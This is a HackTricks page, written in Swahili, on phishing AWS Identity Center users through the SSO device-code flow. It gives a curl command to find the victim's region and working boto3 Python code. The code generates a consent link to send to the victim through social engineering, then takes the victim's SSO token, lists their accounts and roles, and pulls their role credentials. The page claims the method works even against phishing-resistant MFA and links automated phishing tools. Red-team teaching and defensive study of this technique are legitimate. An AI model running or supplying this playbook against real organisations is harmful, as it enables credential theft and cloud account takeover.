 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mipango ya usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwenye** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Device Code Phishing

Awali ilipendekezwa katika [**blog post hii**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), inawezekana kutuma **kiungo** kwa mtumiaji anayetumia AWS SSO kwamba ikiwa **mtumiaji atakubali** mshambuliaji ataweza kupata **token ya kujifanya mtumiaji** na kupata majukumu yote ambayo mtumiaji anaweza kufikia katika **Identity Center**.

Ili kufanya shambulio hili mahitaji ni:

* Mhasiriwa anahitaji kutumia **Identity Center**
* Mshambuliaji lazima ajue **subdomain** inayotumiwa na mhasiriwa `<victimsub>.awsapps.com/start`

Kwa kutumia tu taarifa za awali, **mshambuliaji ataweza kutuma kiungo kwa mtumiaji** kwamba ikiwa **kikubaliwa** kitampa **mshambuliaji ufikiaji wa akaunti ya mtumiaji wa AWS**.

### Shambulio

1. **Kupata subdomain**

Hatua ya kwanza ya mshambuliaji ni kujua subdomain ambayo kampuni ya mhasiriwa inatumia katika Identity Center yao. Hii inaweza kufanywa kupitia **OSINT** au **kubashiri + BF** kwani kampuni nyingi zitakuwa zinatumia jina lao au mabadiliko ya jina lao hapa.

Kwa taarifa hii, inawezekana kupata eneo ambapo Identity Center iliwekwa:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Tengeneza kiungo kwa ajili ya mwathirika & Tuma**

Endesha msimbo ufuatao ili kutengeneza kiungo cha kuingia AWS SSO ili mwathirika aweze kuthibitisha.\
Kwa demo, endesha msimbo huu kwenye console ya python na usitoke kwani baadaye utahitaji baadhi ya vitu kupata token:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Tuma kiungo kilichotengenezwa kwa mwathirika ukitumia ujuzi wako mzuri wa uhandisi wa kijamii!

3. **Subiri hadi mwathirika akubali**

Ikiwa mwathirika alikuwa **tayari ameingia kwenye AWS** atahitaji tu kukubali kutoa ruhusa, ikiwa hakuwa ameingia, atahitaji **kuingia kisha kukubali kutoa ruhusa**.\
Hivi ndivyo dirisha la ruhusa linavyoonekana siku hizi:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Pata token ya SSO ya ufikiaji**

Ikiwa mwathirika alikubali dirisha la ruhusa, endesha msimbo huu ili **kuzalisha token ya SSO kwa kujifanya mtumiaji**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
The SSO access token ni **halali kwa masaa 8**.

5. **Jifanya kuwa mtumiaji**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Udukuzi wa MFA isiyoweza Kudukuliwa

Inafurahisha kujua kuwa shambulio la awali **linafanya kazi hata kama "MFA isiyoweza kudukuliwa" (webAuth) inatumika**. Hii ni kwa sababu **mchakato wa awali hauachi domain ya OAuth inayotumika**. Tofauti na mashambulio mengine ya udukuzi ambapo mtumiaji anahitaji kubadilisha domain ya kuingia, katika kesi hii mchakato wa kifaa umeandaliwa ili **kifaa kijue msimbo** na mtumiaji anaweza kuingia hata kwenye mashine tofauti. Ikiwa ombi limekubaliwa, kifaa, kwa **kujua msimbo wa awali**, kitaweza **kupata hati za mtumiaji**.

Kwa maelezo zaidi kuhusu hili [**angalia chapisho hili**](https://mjg59.dreamwidth.org/62175.html).

### Zana za Kiotomatiki

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome_phish)

## Marejeleo

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Jifunze na fanya mazoezi ya Udukuzi wa AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya Udukuzi wa GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mipango ya usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwenye** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
